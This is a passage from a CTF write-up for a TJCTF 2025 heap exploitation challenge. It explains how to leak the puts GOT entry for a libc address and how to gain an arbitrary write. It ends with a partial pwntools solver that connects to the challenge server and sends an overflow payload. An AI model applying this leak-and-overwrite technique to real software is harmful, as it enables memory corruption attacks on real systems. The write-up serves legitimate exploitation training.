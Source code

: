 this gives us a very good read primitive , imagine `X =&GOT_Puts -4 ` , then the name attribue will be &GOT_puts and it will print the &Puts from libc . this would be clean but look at this

![img](/assets/posts/TJCTF-2025/image.png)

time would be the second half of `GOT_free` which is zero because the function was never called yet , so its address was still a plt entry .

so our approach should be `X =&GOT_Puts` , have the first bytes be leaked as int , and second half as raw bytes

![img](/assets/posts/TJCTF-2025/leak.png)

this would also grant us arbitrary write on this chunk , given what i explained in _understanding source code_ , in the next iteration , the chunk we'll be dealing with is the latest chunk , in other words X .

so again we write its first 4 bytes as int (in time attribute) , and the latter 4 bytes as string (in name attribute)

### solver :

```python
from pwn import *
from time import sleep
context.arch = 'amd64'

def debug():
        if local<2:
                gdb.attach(p,'''
                        ''')
###############   files setup   ###############
local=len(sys.argv)
exe=ELF("./main_patched")
libc=ELF("./libc.so.6")
nc="nc tjc.tf 31509"
port=int(nc.split(" ")[2])
host=nc.split(" ")[1]

############### remote or local ###############
if local>1:
        p=remote(host,port)
else:
        p=process([exe.path])

############### helper functions ##############
def send():
        pass

############### main exploit    ###############
p.recvuntil("Event time? (1-24)")
p.sendline("1")
debug()
p.recvuntil("Event name? ")
p.sendline(b"a"*0x84+p64(exe.got.puts))
```